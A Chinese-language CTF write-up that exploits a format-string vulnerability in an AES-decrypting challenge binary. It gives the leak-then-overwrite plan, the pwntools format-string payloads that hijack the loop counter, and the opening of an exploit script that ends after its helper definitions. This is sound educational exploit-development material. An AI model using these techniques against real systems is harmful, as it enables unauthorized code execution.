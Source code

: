 在 `main` 函数中，程序读取用户输入，并使用硬编码的 key 对输入进行 AES 解密。解密后的消息将会直接被使用 `printf` 打印出来，存在格式化字符串漏洞。程序会循环执行上述过程三次，然后从 `main` 函数返回。

本题的利用难点在于：存储用户输入的缓冲区位于堆上，且限制了我们只有三次攻击机会。

### 利用思路

关于非栈上的格式化字符串，可以先去找找别的资料看。

3 次机会一定是不足以打穿非栈的格式化字符串溢出的，必须想办法进行更多次攻击。在程序中，我们可以发现表示剩余次数的循环变量 `i` 保存在栈上，因此一开始仅有的这三次机会可以用来进行 `i` 的劫持。

1. 泄漏栈地址、Libc 基址；
2. 劫持一个栈上的栈指针，使其指向 `i`；
3. 劫持 `i` 为一个更大的数。

```python
sa(b'3 times', aes128_encrypt(b'.%6$p.%15$p.\0', key))

...
ru(b'.')
stack_base = int(ru(b'.')[:-1].decode(), 16)
success("stack_base: "+hex(stack_base))
i_addr = stack_base-0x124
success("i: "+hex(i_addr))
...

sa(b'2 times', aes128_encrypt(f'%{i_addr&0xFFFF}c%6$hn\0'.encode(), key))
sa(b'1 times', aes128_encrypt(f'%5c%45$hn\0'.encode(), key))

```

在此之后就是常规的攻击了。我选择将栈上的返回地址劫持为 libc 中的 one_gadget。

### Exploit Script

我使用 `Cryptodomex` 库进行 AES 加密。如果有安装 `Cryptodome` 库，也可以直接将脚本中所有 `Cryptodome` 直接替换为 `Crypto`。

```python
#!/usr/bin/python3
from pwn import *
import sys
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import *

context.terminal = ['tmux', 'splitw', '-h']

# ---------------- Environment Config ---------------- #

context.log_level = 'info'
context.arch = 'amd64'

libc_name = "./libc.so.6"
filename = "./pwn"

libc = ELF(libc_name)
elf = ELF(filename)

# ------------------- Exploitation ------------------- #

ru  = lambda a:     io.recvuntil(a)
r   = lambda:       io.recv()
sla = lambda a,b:   io.sendlineafter(a,b)
sa  = lambda a,b:   io.sendafter(a,b)
sl  = lambda a:     io.sendline(a)
s   = lambda a:     io.send(a)

```